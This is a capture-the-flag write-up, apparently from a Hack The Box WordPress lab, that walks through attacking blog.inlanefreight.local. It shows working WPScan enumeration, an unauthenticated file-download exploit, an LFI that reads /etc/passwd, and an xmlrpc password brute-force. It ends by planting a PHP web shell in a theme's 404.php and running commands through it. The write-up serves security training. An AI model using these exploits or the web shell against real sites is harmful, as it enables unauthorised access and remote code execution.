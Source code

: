 ## Challenge 1

Identify the WordPress version number.

## Solution 1

First all the scans don't work, as it seems it is not running WordPress.

After some navigation to the website, I click on `Blog` and the site with the url `http://blog.inlanefreight.local/` doesn't open.

I added that with the ip on the `/etc/hosts` file, and then it works.

Now, let's try to enumerate the version.

```sh
curl -s -X GET http://blog.inlanefreight.local/ | grep '<meta name="generator"'
<meta name="generator" content="WordPress 5.1.6" />
```

## Challenge 2

Identify the WordPress theme in use.

## Solution 2

```sh
curl -s -X GET http://blog.inlanefreight.local | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
http://blog.inlanefreight.local/wp-content/themes/twentynineteen/style.css?ver=1.3
http://blog.inlanefreight.local/wp-content/themes/twentynineteen/print.css?ver=1.3
<body class="home blog wp-custom-logo wp-embed-responsive tribe-no-js page-template-var-www-blog-inlanefreight-local-public_html-wp-content-themes-twentynineteen-page-php hfeed image-filters-enabled">
```

So the answer is `twentynineteen`.

## Challenge 3

Submit the contents of the flag file in the directory with directory listing enabled.

## Solution 3

Let's enumerate to check if the directory listing is enabled, and try to access that.

By running the following command:

```sh
curl -s -X GET http://blog.inlanefreight.local | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2
```

There I saw that there is a directory `/uploads` and after opening it, there is a file `upload_flag.txt` which contains the flag `HTB{d1sabl3_d1r3ct0ry_l1st1ng!}`.

## Challenge 4

Identify the only non-admin WordPress user. `(Format: <first-name> <last-name>)`

## Solution 4

Let's use WPScan to enumerate users.

```sh
wpscan --url http://blog.inlanefreight.local --enumerate u
```

This gives three users:
- erika
- admin
- Charlie Wiggins

The last one is the answer to the challenge.

## Challenge 5

Use a vulnerable plugin to download a file containing a flag value via an unauthenticated file download.

## Solution 5

Let's scan the site with the api token in order to get vulnerable plugins.

```sh
wpscan --url http://blog.inlanefreight.local --enumerate --api-token <token>
```

This provided with a number of vulnerable plugins.

The CVE-2019-19985 on **exploitdb** is `Unauthorized File Download` and the PoC is `curl [BASE_URL]'/wp-admin/admin.php?page=download_report&report=users&status=all'`.

So after using this on the site, we got the flag:

```sh
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
"First Name", "Last Name", "Email", "List", "Status", "Opt-In Type", "Created On"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Test", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
"admin@inlanefreight.local", "HTB{unauTh_d0wn10ad!}", "admin@inlanefreight.local", "Main", "Subscribed", "Double Opt-In", "2020-09-08 17:40:28"
```


## Challenge 6

What is the version number of the plugin vulnerable to an LFI?

## Solution 6

One of the vulnerable plugins has a LFI, which we can use to read documents.

```sh
[!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://blog.inlanefreight.local/wp-content/plugins/site-editor/readme.txt

```

So the answer to this is `1.1.1`.

## Challenge 7

Use the LFI to identify a system user whose name starts with the letter "f".

## Solution 7

A PoC to this LFI vulnerability found in **exploitdb** is:

```sh
/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

And if we go to `http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd` we see that we can read the file.

And one of the users is `frank.mclane`.

## Challenge 8

Obtain a shell on the system and submit the contents of the flag in the /home/erika directory.

## Solution 8

From the WPScan we see that `xmlrpc` is enabled and we perform a password attack using the `rockyou.txt` wordlist, on the user `erika`.

```sh
wpscan --password-attack xmlrpc -t 20 -U erika -P rockyou.txt --url http://blog.inlanefreight.local
```

And the password of `erika` is `010203`.

```sh
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - erika / 010203                                                                                                                                                            
Trying erika / gatito Time: 00:00:19 <                                                                                                        > (700 / 14345091)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: erika, Password: 010203
```

Login with these credentials to `/wp-admin`.

On `Apperance` - `Theme editor` and on theme `Twenty Sixteen` which is not active, edit the file `404.php` file and add a web shell.

```php
<?php
/**
 * The template for displaying 404 pages (not found)
 *
 * @package WordPress
 * @subpackage Twenty_Sixteen
 * @since Twenty Sixteen 1.0
 */
system($_GET['cmd']); ?>

<?php get_sidebar(); ?>
<?php get_footer(); ?>

```

When we go then to:

```sh
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentysixteen/404.php?cmd=id"
```

I see the output, which confirms our RCE:

```sh
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Then we list the files on `/home/erika`.

```sh
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentysixteen/404.php?cmd=ls%20/home/erika"
d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt
```

And in the end open the file, to obtain the final flag.

```sh
curl -X GET "http://blog.inlanefreight.local/wp-content/themes/twentysixteen/404.php?cmd=cat%20/home/erika/d0ecaeee3a61e7dd23e0e5e4a67d603c_flag.txt"
HTB{w0rdPr355_4SS3ssm3n7}
```
